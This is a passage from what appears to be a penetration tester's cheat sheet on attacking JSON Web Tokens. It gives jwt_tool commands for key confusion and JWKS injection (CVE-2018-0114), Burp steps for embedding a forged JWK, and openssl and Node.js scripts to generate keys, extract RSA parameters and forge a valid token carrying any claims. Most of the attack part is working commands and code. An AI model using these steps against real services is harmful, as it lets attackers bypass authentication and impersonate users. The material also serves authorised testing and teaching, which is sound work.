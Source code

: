       Note that PEM should contain a single _newline_ character at the end, however some tools may miss this off when exporting a key.

      _Use jwt\_tool's -V flag alongside the -pk public.pem argument to verify that the Public Key you found matches the key used to sign the token_
  3. `python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem`

#### JWT Header Parameter Injection

*   \*\***`jwk` parameter**

    1. With the extension loaded, in Burp's main tab bar, go to the **JWT Editor Keys** tab.
    2. [Generate a new RSA key.](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#adding-a-jwt-signing-key)
    3. Send a request containing a JWT to Burp Repeater.
    4. In the message editor, switch to the extension-generated **JSON Web Token** tab and [modify](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) the token's payload however you like.
    5. Click **Attack**, then select **Embedded JWK**. When prompted, select your newly generated RSA key.
    6. Send the request to test how the server responds.

    **JWKS Injection (CVE-2018-0114):**

    `$ python3 jwt_tool.py JWT_HERE -X i`

    * If page returns valid then you have a bypass - go tampering.

    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d6851b04-cbdf-4b1d-9063-981bdb275688/Untitled.png)

    ```jsx
    Embedded Public Key (CVE-2018-0114)
    If the JWT has embedded a public key like in the following scenario:

    Using the following nodejs script it's possible to generate a public key from that data:
    --------------------------------------------
    const NodeRSA = require('node-rsa');
    const fs = require('fs');
    n ="ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8";
    e = "AQAB";
    const key = new NodeRSA();
    var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
    console.log(importedKey.exportKey("public"));
    -------------------------------------------------------------------------
    --> It's possible to generate a new private/public key, embeded the new public key inside the token and use it to generate a new signature:
    -----------------------------------------------------
    openssl genrsa -out keypair.pem 2048
    openssl rsa -in keypair.pem -pubout -out publickey.crt
    openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
    --> You can obtain the "n" and "e" using this nodejs script:
    const NodeRSA = require('node-rsa');
    const fs = require('fs');
    keyPair = fs.readFileSync("keypair.pem");
    const key = new NodeRSA(keyPair);
    const publicComponents = key.exportKey('components-public');
    console.log('Parameter n: ', publicComponents.n.toString("hex"));
    console.log('Parameter e: ', publicComponents.e.toString(16));
    ---------------------------------------------------------------------------------------
    	--> Finally, using the public and private key and the new "n" and "e" values you can use jwt.io to forge a new valid JWT with any information
    ```